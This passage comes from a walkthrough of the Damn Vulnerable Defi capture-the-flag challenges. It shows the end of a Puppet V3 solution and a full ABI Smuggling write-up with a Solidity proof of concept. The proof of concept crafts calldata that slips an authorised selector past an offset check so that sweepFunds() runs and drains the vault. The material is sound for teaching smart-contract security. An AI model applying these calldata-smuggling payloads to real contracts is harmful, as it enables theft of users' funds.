 ```solidity
        )
    );

    vm.warp(block.timestamp + 114);

    weth.approve(
        address(lendingPool),
        lendingPool.calculateDepositOfWETHRequired(LENDING_POOL_INITIAL_TOKEN_BALANCE)
    );
    lendingPool.borrow(LENDING_POOL_INITIAL_TOKEN_BALANCE);
    token.transfer(recovery, LENDING_POOL_INITIAL_TOKEN_BALANCE);
}
```

Run `forge test --mp test/puppet-v3/PuppetV3.t.sol --isolate` to validate test

---

## 15.ABI SMUGGLING

**Obejctive**

_from `_isSolved()` in test_

1. _All tokens taken from the vault and deposited into the designated recovery account_

**Attack Analysis**

- The vulnerability lies in the `execute()` function, which uses calldataload to extract 4 bytes of the function selector from the provided `actionData` starting at the `calldataOffset` (100 bytes). It then checks whether this ID is authorized using `getActionId()`.
- The deployer can execute `sweepFunds()` with the selector `0x85fb709d`, and the player can execute `withdraw()` with the selector `0xd9caed12`.
- The key to the exploit is bypassing the `getActionId()` check, which allows arbitrary execution of `functionCall()`.
- To craft the payload, an attacker needs to understand that in the ABI encoding of the `execute()` function, `actionData` is a dynamically sized bytes parameter.
- The value `0x80` is an offset that points to the starting position of the actual data in `actionData`. This offset is calculated relative to the start of the entire calldata.

- **POC**

See [test/abi-smuggling/ABISmuggling.t.sol](https://github.com/CanonicalJP/damn-vulnerable-defi-v4-walkthrough/blob/master/test/abi-smuggling/ABISmuggling.t.sol)

```solidity
function test_abiSmuggling() public checkSolvedByPlayer {
    bytes memory calldataPayload = abi.encodePacked(
        vault.execute.selector, // 4 bytes = Selector
        abi.encodePacked(bytes12(0), address(vault)), // 32 bytes = vault address padded to 32 bytes
        abi.encodePacked(uint256(0x80)), // 32 bytes = calldata start location offset
        abi.encodePacked(uint256(0)), // 32 bytes = empty data filler
        abi.encodePacked(vault.withdraw.selector, bytes28(0)), // 32 bytes = ´withdraw()´ selector
        abi.encodePacked(uint256(0x44)), // 32 bytes = Length of actionData
        abi.encodeWithSelector(vault.sweepFunds.selector, recovery, token) // The actual calldata to `sweepFunds()`
    );

    address(vault).call(calldataPayload);
}
```
